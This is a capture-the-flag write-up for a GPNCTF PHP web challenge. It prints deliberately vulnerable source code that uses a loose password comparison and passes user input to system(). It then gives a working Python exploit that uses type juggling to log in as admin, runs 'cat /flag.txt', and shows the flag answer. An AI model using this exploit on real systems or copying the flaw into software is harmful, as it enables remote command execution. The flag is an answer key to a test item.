

# Never gonna tell a lie and type you

> <p>todo</p>
> <p><a href="attachments/never-gonna-tell-a-lie-and-type-you.tar.gz">never-gonna-tell-a-lie-and-type-you.tar.gz</a></p>

## Path to Flag

We are given a php file

```
<?php
       ini_set("display_errors",1);
       error_reporting(E_ALL);
//we tought about using passwords but you see everyone says they are insecure thus we came up with our own riddle.
function securePassword($user_secret){
    if ($user_secret < 10000){
        die("nope don't cheat");
    }
    $o = (integer) (substr(hexdec(md5(strval($user_secret))),0,7)*123981337);
    return $user_secret * $o ;
    
}
//this weird http parameter handling is old we use json 
$user_input = json_decode($_POST["data"]); 
//attention handling user data is dangerous
var_dump($user_input);

if ($_SERVER['HTTP_USER_AGENT'] != "friendlyHuman"){
    die("we don't tolerate toxicity");
}
    if($user_input->{'user'} === "admin🤠") {
        if ($user_input->{'password'} == securePassword($user_input->{'password'})  ){
            echo " hail admin what can I get you ". system($user_input->{"command"});
        }
        else {
            die("Skill issue? Maybe you just try  again?");
        }}
        else {
            echo "<html>";
            echo "<body>";
            echo "<h1>Welcome [to innovative Web Startup]</h1>";
            echo "<p> here we focus on the core values of each website. The backbone that carries the entire frontend</p><br><br>";
            echo "<blink>For this we only use old and trusty tools that are well documented and well tested</blink><br><br>";
            echo "<Big>That is not to say that we are not innovative, our authenticators are ahead of their time.</Big><br><br>";
           echo "<plaintext> to give you an teaser of our skills look at this example of commissioned work we build in a past project </plaintext>"; 
            
            echo system("fortune")."<br>";
        }
?>
```

The security issue here is that it doesn't use `===` for the password. Hence, we can manipulate the data type for the input (type juggling), I scripted to solve this chall.

```
#!/usr/bin/env python3

import requests
import json
import hashlib

def secure_password(user_secret):
    if user_secret < 10000:
        raise ValueError("nope don't cheat")
    md5_hash = hashlib.md5(str(user_secret).encode()).hexdigest()
    
    o = int(md5_hash[:7], 16) * 123981337
    
    return user_secret * o

url = 'https://die-nacht-von-freitag-auf-montag--peter-wackel-6643.ctf.kitctf.de/'

headers = {
    'User-Agent': 'friendlyHuman',
    'Content-Type': 'application/x-www-form-urlencoded'
}

json_data = {
    'user': 'admin🤠',
    'password': True, 
    'command': 'cat /flag.txt' 
}

json_data_str = json.dumps(json_data)
data = {'data': json_data_str}
response = requests.post(url, data=data, headers=headers)

if response.status_code == 200:
    print("POST request successful!")
    print(response.text)
else:
    print(f"POST request failed with status code: {response.status_code}")
    print("Response content:", response.text)
```



`GPNCTF{1_4M_50_C0NFU53D_R1GHT_N0W}`